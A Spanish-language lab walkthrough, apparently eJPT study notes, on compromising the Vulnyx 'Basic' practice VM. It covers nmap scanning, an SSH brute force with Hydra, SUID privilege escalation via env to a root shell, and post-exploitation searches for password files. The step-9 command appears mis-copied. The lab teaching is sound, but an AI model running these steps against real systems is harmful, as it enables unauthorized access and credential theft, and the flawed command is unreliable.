 
----
- TAG: #Escalada-De-Privilegios #Linux #Binarios #SUID 
-----
## Escalada de Privilegios con Binarios SUID

En este apartado, repasaremos la escalada de privilegios utilizando binarios **SUID**. Realizaremos un ejercicio similar al anterior, pero con un binario y una máquina diferente.

### Requisitos

1. **Kali Linux** como máquina atacante.
2. **Vulnyx Basic** como máquina víctima - [Descargar aquí](https://vulnyx.com/#basic)
    - Importa la máquina en VirtualBox.
    - Configura el adaptador de red en modo puente.
    - Inicia la máquina.

### Pasos

1. Desde la máquina atacante (Kali Linux), utilizamos `arp-scan` para identificar la máquina víctima en la red local:

```bash
sudo arp-scan -I eth0 --localnet
```

2. Verifica la conectividad con la máquina víctima utilizando `ping` y determina el tipo de sistema:

```bash
ping -c 1 1.2.3.4
```

3. Realiza un escaneo con `nmap` para identificar posibles vulnerabilidades:

```bash
nmap -p- -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn 1.2.3.4 -oN escaneo
```
- **`-p-`**: Indica que se deben escanear **todos los puertos** (desde el 1 hasta el 65535).
- **`-sS`**: Realiza un **escaneo SYN**, que es más sigiloso que un escaneo TCP porque no establece una conexión completa.
- **`-sC`**: Usa los **scripts por defecto** de Nmap
- **`-sV`**: Realiza una **detección de versión** de los servicios que están ejecutándose en los puertos abiertos.
- **`--open`**: Solo muestra los **puertos abiertos**
- **`--min-rate=5000`**: Establece una tasa mínima de envío de paquetes de **5000 paquetes por segundo**
- **`-vvv`**: Nos muestra más detalles en tiempo real durante el escaneo.
- **`-n`**: Desactiva la resolución  DNS. Es decir, no intentará convertir las direcciones IP en nombres de dominio.
- **`-Pn`**: Indica que no se debe realizar un **ping previo** para verificar si el host está activo.
- **`-oN escaneo`**: Guarda el resultado del escaneo en un archivo llamado **`escaneo`** en formato normal (texto plano).

4. El escaneo revela que el puerto `80` está abierto. Accede al servicio web en ese puerto para investigar:

```bash
http://1.2.3.4
```

   En la página, vemos una plantilla de Apache, sin nada fuera de lo común.

5. El escaneo de `nmap` también muestra que los puertos `22`, `80` y `631` están abiertos. Al explorar el puerto `631`, encontramos un panel con varias opciones. Navegando a la sección `Printers`, encontramos un usuario llamado `dimitri`.

6. Dado que encontramos un usuario, podemos intentar un ataque de fuerza bruta para descubrir su contraseña. Como el puerto `22` (SSH) está abierto, utilizaremos **Hydra** para realizar el ataque:

```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://1.2.3.4
```

   **Nota:** Este proceso puede tardar, ya que la contraseña se encuentra en las últimas entradas del diccionario.

7. Una vez encontrada la contraseña:

```bash
dimitri:mememe
```

   Intenta iniciar sesión en el protocolo SSH:
   
```bash
ssh dimitri@1.2.3.4
```

   Introduce la contraseña cuando se te solicite:

```bash
mememe
```

8. Ahora, procederemos a escalar privilegios, como se explicó en la clase anterior, aprovechando los binarios **SUID**. Para ello, utilizamos el siguiente comando:

```bash
find / -perm -4000 2>/dev/null
```

   Esto listará todos los binarios SUID en el sistema. Si identificas uno que no debería estar ahí, como `env` en este caso, puedes usar `GTFObins` para confirmar si es común o no.

9. Utilizando `env`, ejecutamos los pasos sugeridos para obtener privilegios elevados:

 ```bash
sudo install -m =xs $(which env) .
env /bin/sh -p
```

   Si todo sale bien, deberías estar dentro como usuario `root`.

Ahora podríamos ejecutar el comando que queramos para ver más información sobre la máquina:
- Ver servicios corriendo:
```bash
ps aux
```

- Identificar puertos abiertos:
```bash
netstat -tulnp
```

- Ver conexiones activas:
```bash
ss -tuln
```

- Ver interfaces de red y direcciones IP
```bash
ip a
```

- **Buscar otros dispositivos en la red:** Si tienes acceso a herramientas como `nmap`, puedes escanear otros dispositivos en la red:
```bash
nmap -sP 192.168.1.0/24
```

- Buscar archivos que contengan la palabra 'password' u otras credenciales:
```bash
find / -name "*password*" 2>/dev/null
```
### Conclusión

Dominar esta técnica es crucial, ya que en el examen eJPT, al menos en una máquina, será necesario realizar una escalada de privilegios.

---
